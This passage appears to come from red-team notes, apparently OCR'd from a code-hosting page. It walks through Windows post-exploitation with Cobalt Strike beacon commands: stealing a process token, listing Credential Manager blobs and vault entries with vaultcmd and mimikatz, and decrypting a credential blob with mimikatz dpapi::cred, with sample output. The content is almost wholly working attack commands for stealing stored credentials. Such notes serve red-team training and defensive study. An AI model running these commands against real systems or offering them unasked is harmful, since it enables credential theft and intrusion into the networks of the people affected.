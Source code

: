 Steal the access token of that process and access to the target resource.

```
beacon> steal_token 5674
```

# Credential Manager

The credential manager blobs are stored in user's `AppData` directory.

```
beacon> ls C:\Users\user\AppData\Local\Microsoft\Credentials

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 372b     fil     02/25/2021 13:07:38   9D54C839752B38B233E5D56FDD7891A7
 10kb     fil     02/21/2021 11:49:40   DFBE70A7E5CC19A398EBF1B96859CE5D
```
With `vaultcmd` tool we can also list them.

```
beacon> run vaultcmd /listcreds:"Windows Credentials" /all
Credentials in vault: Windows Credentials

Credential schema: Windows Domain Password Credential
Resource: Domain:target=TERMSRV/srv-1
Identity: CORP\user
Hidden: No
Roaming: No
Property (schema element id,value): (100,2)
```

Or with mimikatz.

```
beacon> mimikatz vault::list
```

## Decrypt the credentials

To decrypt the credentials we need to find the master encryption key.

Run mimikatz `dpapi` and provide the location to the blob on disk.

```
beacon> mimikatz dpapi::cred /in:C:\Users\user\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7

**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {a23a1631-e2ca-4805-9f2f-fe8966fd8698}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000030 - 48
  szDescription      : Local Credential Data

  algCrypt           : 00006603 - 26115 (CALG_3DES)
  dwAlgCryptLen      : 000000c0 - 192
  dwSaltLen          : 00000010 - 16
  pbSalt             : f8fb8d0f5df3f976e445134a2410ffcd
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         : 
  algHash            : 00008004 - 32772 (CALG_SHA1)
  dwAlgHashLen       : 000000a0 - 160
  dwHmac2KeyLen      : 00000010 - 16
  pbHmack2Key        : e8ae77b9f12aef047664529148beffcc
  dwDataLen          : 000000b0 - 176
```